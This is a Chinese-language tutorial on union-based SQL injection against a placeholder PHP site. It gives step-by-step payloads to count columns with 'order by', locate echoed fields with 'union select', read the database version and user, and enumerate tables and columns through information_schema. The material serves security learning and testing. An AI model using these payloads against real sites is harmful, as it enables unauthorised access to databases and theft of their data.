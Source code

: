 [www.xxx.com/xxx.php?id=1+1](http://www.xxx.com/xxx.php?id=1+1)

[www.xxx.com/xxx.php?id=6/3](http://www.xxx.com/xxx.php?id=6/3)

## **确定字段个数**

通过在参数后面插入“order by x#”来确定字段个数，直到“order by x#”正常显示并且“order by x+1#”报错为止，报错是说明x+1超过了字段个数，字段个数就是x

例如：

   [www.xxx.com/xxx.php?id=2](http://www.xxx.com/xxx.php?id=2)’ order by 3#  正常显示

  并且

   [www.xxx.com/xxx.php?id=2](http://www.xxx.com/xxx.php?id=2)’ order by 4#  报错

说明字段个数为3

## **确定字段回显位置**

在参数后面添加“union select 1,2,3,…,x-1,x#”(x是字段个数），联合查询确定可回显位置

PS：联合查询时记得把前面的查询为空

例如：

   [www.xxx.com/xxx.php?id=-2](http://www.xxx.com/xxx.php?id=-2)'%20union%20select%201,2,3#

下图说明第2、3字段可回显

<img src="SQL注入/media/1634051626650780000301.png" alt="SQL注入/media/1634051626650780000301.png" style="zoom:50%;" align="left"/>
## **判断数据库信息**

在回显位置插入数据库内置函数

数据库版本：version() 、数据库名：database() 、数据库用户名：user() 

操作系统信息：select @@global.version_compile_os from mysql.user

例如：

   [www.xxx.com/xxx.php?](http://www.xxx.com/xxx.php?) id=-2’%20union%20select%201,2,user()#

<img src="SQL注入/media/1634051626652538000944.png" alt="SQL注入/media/1634051626652538000944.png" style="zoom:50%;" align="left"/>
## **查询数据**

mysql>5.0版本中，information_schema这这个数据库中保存了MySQL服务器所有数据库的信息。如数据库名，数据表，表里的数据类型与访问权限等（这台MySQL服务器上，到底有哪些数据库、各个数据库有哪些表，每张表的字段类型是什么，各个数据库要什么权限才能访问，等等信息都保存在information_schema里面）。

```sql
information_schema的表schemata中的列schema_name记录了所有数据库的名字
information_schema的表tables中的列table_schema记录了所有数据库的名字
information_schema的表tables中的列table_name记录了所有数据库的表的名字
information_schema的表columns中的列table_schema记录了所有数据库的名字
information_schema的表columns中的列table_name记录了所有数据库的表的名字
information_schema的表columns中的列column_name记录了所有数据库的表的列的名字

查名：select group_concat(table_name) from information_schema.tables where table_schema=database()
查段名：select group_concat(column_name) from information_schema.columns where table_name=‘表名’
查询数据：select 字段1,字段2 from 表名
例如：
id=-2'%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20
table_schema=database()#
```
<img src="SQL注入/media/1634051626657809000369.png" alt="SQL注入/media/1634051626657809000369.png" style="zoom:50%;" align="left"/>
